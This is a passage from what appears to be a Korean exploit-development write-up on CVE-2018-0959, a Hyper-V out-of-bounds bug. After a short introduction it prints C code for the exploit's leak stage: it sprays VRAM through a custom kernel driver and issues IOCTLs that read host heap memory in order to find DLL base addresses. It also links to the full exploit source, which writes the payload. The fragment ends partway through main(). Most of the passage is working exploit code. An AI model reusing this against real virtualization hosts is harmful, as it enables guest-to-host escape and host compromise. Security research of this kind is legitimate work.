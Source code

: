 커널 드라이버를 통해 OOB Read/Write를 할 수 있게 되었으니 이제 이 드라이버를 사용해서 실질적으로 익스플로잇을 수행하는 프로그램을 작성합시다. 전체 소스코드는 [여기](https://github.com/pwndorei/CVE-2018-0959/blob/main/Exploit/Exploit.c)에서 확인하실 수 있고 OOB Read로 읽은 타겟 힙 데이터에서 DLL 베이스 주소를 계산하고 페이로드를 OOB Write로 쓰는 등의 기능을 합니다. 이번 파트에서는 OOB Read로 데이터를 유출하는 부분의 구현만 살펴보시죠!

```C
int main() {
	HANDLE driver, hFile, hFileMap;

	__int64* data = NULL;
	hFile = CreateFileW(L".\\TargetHeap.dat", GENERIC_READ | GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

	if (hFile == INVALID_HANDLE_VALUE) {
		printf("CreateFile Failed(%d)\n", GetLastError());
		return -1;
	}

	hFileMap = CreateFileMappingW(hFile, NULL, PAGE_READWRITE, 0, 0x400000, NULL);

	if (hFileMap == INVALID_HANDLE_VALUE) {
		CloseHandle(hFile);
		printf("CreateFileMapping Failed(%d)\n", GetLastError());
		return -1;
	}

	data = MapViewOfFile(hFileMap, FILE_MAP_WRITE, 0, 0, 0);

	if (data == NULL) {
		CloseHandle(hFileMap);
		CloseHandle(hFile);
		printf("MapViewOfFile Failed(%d)\n", GetLastError());
		return -1;
	}

	driver = CreateFileW(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (driver == INVALID_HANDLE_VALUE) return 0;
	printf("[+] Spray Pattern on VRAM Buffer\n");

	sprayPattern(driver);

	printf("[+] Leak Data from Target Heap\n");

	ReadInfo LeakDll = { 0, }, FindVdl = { 0, };

	LeakDll.buffer = data;
	LeakDll.from = 0;
	LeakDll.to = 0x100000;

	int jumpOffset = 0, readRange = 0;
	printf("Jump Offset(KB) >");
	scanf_s("%d", &jumpOffset);
	printf("Read Range(KB) >");
	scanf_s("%d", &readRange);
	FindVdl.from = jumpOffset*1024;//1408KB
	FindVdl.to = FindVdl.from + readRange * 1024;
	FindVdl.buffer = (char*)LeakDll.buffer + FindVdl.from;

	printf("[+] Read 1\n");
	DeviceIoControl(driver, LEAK_IOCTL, &LeakDll, sizeof(ReadInfo), NULL, 0, NULL, NULL);
	printf("[+] Read 2\n");
	DeviceIoControl(driver, LEAK_IOCTL, &FindVdl, sizeof(ReadInfo), NULL, 0, NULL, NULL);
```